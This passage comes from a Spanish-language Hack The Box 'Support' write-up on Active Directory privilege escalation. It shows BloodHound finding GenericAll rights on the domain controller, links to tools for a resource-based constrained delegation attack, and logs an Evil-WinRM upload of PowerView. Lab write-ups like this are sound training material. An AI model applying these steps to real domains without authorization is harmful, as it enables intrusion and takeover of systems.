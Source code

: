 - Podemos ver eso en **Bloodhound**.

- El grupo `SHARED SUPPORT ACCOUNTS` tiene `GenericAll` en el `DC` .

<p align="center">
<img src="/assets/images/htb-writeup-support/priv.png">
</p>

# Resource based constrained delegation attack

- En este post nos explican como funciona todo <https://github.com/tothi/rbcd-attack>, <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation>.

- Para explotar esto necesitaremos de lo siguiente <https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1>, <https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1>.

- Ahora lo subimos ala maquina y lo importamos para que lo interprete.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> upload /home/miguel/Hackthebox/Support/content/PowerView.ps1

Info: Uploading /home/miguel/Hackthebox/Support/content/PowerView.ps1 to C:\Users\support\Documents\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\support\Documents> dir


    Directory: C:\Users\support\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/29/2024   1:20 PM          22935 20240329132001_BloodHound.zip
-a----         3/29/2024   2:34 PM         770279 PowerView.ps1
-a----         3/29/2024   1:18 PM        1343488 SharpHound.exe
-a----         3/29/2024   1:20 PM          44570 YzgyNDA2MjMtMDk1ZC00MGYxLTk3ZjUtMmYzM2MzYzVlOWFi.bin

```